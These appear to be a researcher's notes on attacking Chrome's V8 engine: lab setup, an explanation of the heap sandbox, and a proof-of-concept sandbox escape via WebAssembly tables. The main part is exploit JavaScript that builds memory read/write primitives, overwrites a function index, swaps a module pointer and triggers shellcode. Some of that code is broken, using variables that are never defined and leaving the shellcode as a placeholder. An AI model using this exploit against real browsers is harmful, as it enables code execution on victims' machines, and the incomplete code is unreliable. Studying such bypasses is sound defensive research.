


## Setting up lab and building V8

### Install Essential Build Tools, V8 Source Code, and Debug Configuration

```bash
sudo apt-get update

sudo apt-get install -y \
    git \
    python3 \
    python3-pip \
    build-essential \
    cmake

sudo apt-get install -y \
    pkg-config \
    gperf \
    ninja-build \
    clang \
    libc++-dev \
    libglib2.0-dev

git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git

export PATH=$PATH:$PWD/depot_tools

mkdir v8-debug
cd v8-debug

fetch v8
cd v8

gn gen out/debug --args='is_debug=true v8_enable_debugging_features=true v8_enable_disassembler=true symbol_level=2'

ninja -C out/debug
```

## Security Tools and Testing Environment

### Install Essential Analysis Tools and Set Up Directories

```bash
sudo apt-get install -y \
    gdb \
    lldb \
    valgrind \
    strace \
    ltrace \
    afl++ \
    radare2 \
    checksec \
    ropper \
    pwndbg

mkdir ~/v8-testcases
mkdir ~/v8-crashes

cat > v8-wrapper.js << EOL
try {
    eval(process.argv[2]);
} catch (e) {
    console.error(e);
}
EOL
```

### Docker Configuration and Debug Commands

```bash
cat > Dockerfile << EOL
FROM ubuntu:latest
RUN apt-get update && apt-get install -y \
    git \
    python3 \
    build-essential \
    cmake
WORKDIR /v8
EOL

out/debug/d8 --allow-natives-syntax

out/debug/d8 --jitless

out/debug/d8 --trace-ic --trace-opt --trace-deopt
```

## Typical Exploit Flow 



# Limitation 

● Compiler-based memory safety doesn’t work if compiler is attack surface
  -> Any logic bug can potentially turn into memory corruption

● Disabling optional compilers solves only a part of the problem
  -> Plenty of bugs elsewhere

### Memory Layout
The V8 Heap Sandbox isolates memory regions to limit corruption. Here’s a representation of the sandboxed memory space:

```ascii
Lower Addresses                Higher Addresses
0xa38000000000   -->   V8 Sandbox (1TB)   -->   0xa48000000000
HeapObj1                              HeapObj2
External Object                       Offset from Base
```

### Core Design Principles:
- **Privileged Address Space**: Secure memory region for sensitive data.
- **Unprivileged Address Space**: Memory allocated for objects, guarded by sandbox boundaries.
- **Pointer Indirection**: All external references use an **External Pointer Table**, eliminating raw pointers.

---

## Example: Potential Sandbox Escape

### ASCII Representation of a Sandbox Escape Attempt

```ascii
                                 [ V8 Sandbox Memory Layout ]

    +------------------------------------------------------------------------------------+
    |                           Primary Sandbox Region (1 TB)                            |
    |  (Unprivileged Address Space: normal objects, arrays, etc.)                       |
    +------------------------------------------------------------------------------------+
    | Offset 0 (Sandbox Base Address)                                                   |
    +------------------------------------------------------------------------------------+
    | External Pointer Table:                                                           |
    |   - Holds pointers to objects within the sandbox                                  |
    |   - Indexed via small integer "external pointers"                                 |
    |   - Prevents direct raw pointer usage in unprivileged code                        |
    +------------------------------------------------------------------------------------+
    | Potential OOB Write Zone (e.g., Overflow from a miscalculated buffer length)       |
    |   => If an OOB write manipulates an index or pointer in the External Ptr Table,    |
    |      it can point outside the intended region                                     |
    +------------------------------------------------------------------------------------+
                       |
                       v
    +------------------------------------------------------------------------------------+
    |           >>> Sandbox Boundary Breached (Controlled Offset) <<<                   |
    +------------------------------------------------------------------------------------+
                       |
                       v
    +------------------------------------------------------------------------------------+
    | Privileged Memory Space (Sensitive Data, JIT code, or internal V8 structures)      |
    +------------------------------------------------------------------------------------+
                                => Potential Sandbox Escape

- The "Sandbox Base Address" marks the start of a protected 1 TB region used by V8.
- The "External Pointer Table" replaces raw pointers with table indices. An OOB (out-of-bounds)
  write in unprivileged code could overwrite an entry to point into privileged memory.
- Once the pointer points beyond the sandbox boundary, the attacker can read or write sensitive
  data, effectively bypassing the isolation mechanism.
```

## Eg V8 SBX bypass - WasmTableObject & WasmTrustedInstanceData : 

The issue mainly happens in the following functions:

1. **`WasmTableObject::SetFunctionTableEntry`** : Updates a specific slot in a WebAssembly table to reference a new function.
2. **`WasmTableObject::UpdateDispatchTables`** :   Synchronizes the internal dispatch tables with the current state of the WebAssembly table.
3. **`WasmTrustedInstanceData::GetCallTarget`** :  Fetches the appropriate function pointer for an indirect call from the trusted instance.



we will create `WasmTable` and 2 `WASM` instances with an indirect call , The goal here is to create a WASM Module with an export function that is calling indirectly
another export function from another WASM Module.To do that, we start by creating a WASM Table that will contain a reference to the export
function that will be called indirectly

```javascript
const rtb = new WebAssembly.Table({
 initial: 1,
 element: "anyfunc",
 maximum: 10
});
const importObject = {
 env: { rtb }
};

``` 
For now the table is empty. We can create a simple export function in a WASM module that is simply returning a float:

```wasm 
(module ;; WASM Module 0
 (func $indirect (result f32)
 f32.const 0.015
 )
 (export "indirect" (func $indirect))
)
```
Next, we can set that function into the WASM Table we created and we can create another
WASM Module that is calling indirectly the export function from the table.


```
Modifies the function index to point to controlled memory
Swaps Module 2 with Module 0 to Escape
Sets up shellcode in WASM RWX memory
Triggers the exploit through the indirect call
```


```javascript
function ToHex(big_int) {
    return "0x" + big_int.toString(16);
}

function smi(i) {
    return i << 1n;
}

// Setup sandbox memory view for read/write primitives  
let sandboxMemory = new DataView(new Sandbox.MemoryView(0, 0x100000000));

// Memory primitives / v8 utils
function addrOf(obj) {
    return Sandbox.getAddressOf(obj);
}

function v8_read64(addr) {
    return sandboxMemory.getBigUint64(Number(addr), true);
}

function v8_write64(addr, val) {
    return sandboxMemory.setBigInt64(Number(addr), val, true);
}

// Step 1: Create WASM Table for indirect function calls 
const rtb = new WebAssembly.Table({
    initial: 1,
    element: "anyfunc",
    maximum: 10
});

const importObject = {
    env: { rtb }
};

// Step 2: Create first WASM module (Module 0) with simple float return
let wasm_code_0 = new Uint8Array([
    0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x05, 0x01, 0x60,
    0x00, 0x01, 0x7d, 0x03, 0x02, 0x01, 0x00, 0x07, 0x0c, 0x01, 0x08, 0x69,
    0x6e, 0x64, 0x69, 0x72, 0x65, 0x63, 0x74, 0x00, 0x00, 0x0a, 0x09, 0x01,
    0x07, 0x00, 0x43, 0x8f, 0xc2, 0x75, 0x3c, 0x0b
]);

let wasm_mod_0 = new WebAssembly.Module(wasm_code_0);
let wasm_instance_0 = new WebAssembly.Instance(wasm_mod_0);
let indirect = wasm_instance_0.exports.indirect;

// Step 3: Create second WASM module (Module 1) that calls Module 0's function indirectly
let wasm_code_1 = new Uint8Array([
    0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x0a, 0x02, 0x60,
    0x00, 0x01, 0x7d, 0x60, 0x01, 0x7d, 0x01, 0x7d, 0x02, 0x0d, 0x01, 0x03,
    0x65, 0x6e, 0x76, 0x03, 0x72, 0x74, 0x62, 0x01, 0x70, 0x00, 0x01, 0x03,
    0x02, 0x01, 0x01, 0x07, 0x08, 0x01, 0x04, 0x6d, 0x61, 0x69, 0x6e, 0x00,
    0x00, 0x0a, 0x0c, 0x01, 0x0a, 0x00, 0x41, 0x00, 0x11, 0x00, 0x00, 0x20,
    0x00, 0x94, 0x0b
]);

let wasm_mod_1 = new WebAssembly.Module(wasm_code_1);
let wasm_instance_1 = new WebAssembly.Instance(wasm_mod_1, importObject);

// Step 4: Create Module 2 with many functions to bypass size check
// This module should contain a large number of functions
// 

// Step 5: Set up the exploit
console.log("[*] Gathering info about Wasm Exported Function");
let addr_wasm_function = addrOf(indirect);
let shared_info = v8_read64(addr_wasm_function + 0x10n) & 0xFFFFFFFFn;
let function_data = v8_read64(shared_info - 1n + 0x8n) & 0xFFFFFFFFn;
let addr_function_data_index = function_data - 1n + 0x14n;

// Step 6: Modify function index
console.log("[*] Writing new index in Wasm Function Data");
let current_value = v8_read64(addr_function_data_index);
console.log("\t[i] Current Function data index: ", ToHex(current_value));

// Calculate new index that will point to our shellcode
let new_index = current_value & 0xffffffff00000000n | smi(401n);
console.log("\t[i] New Function data index: ", ToHex(new_index));

// Step 7: Swap Module 2 with Module 0 in Instance 0 to bypass size check
console.log("[*] Writing module 2 in instance 0");
let addr_wasm_module_2 = addrOf(wasm_mod_2); // assuming wasm_mod_2 was created
console.log("\t[i] Current Module 0: ", ToHex(addr_wasm_module_0));
console.log("\t[i] New Module 0: ", ToHex(addr_wasm_module_0 & 0xffffffff00000000n | addr_wasm_module_2));

// Perform the module swap
v8_write64(addr_wasm_instance_0 + 0x10n, addr_wasm_module_0 & 0xffffffff00000000n | addr_wasm_module_2);

// Step 8: Write the modified function index
v8_write64(addr_function_data_index, new_index);

// Step 9: Setup shellcode in WASM RWX memory using Liftoff compiled floating points
// [Add shellcode setup code here]

// Step 10: Trigger the exploit
rtb.set(0, indirect); // This will now use our modified index
wasm_instance_1.exports.main(1000); // This will trigger our shellcode

```


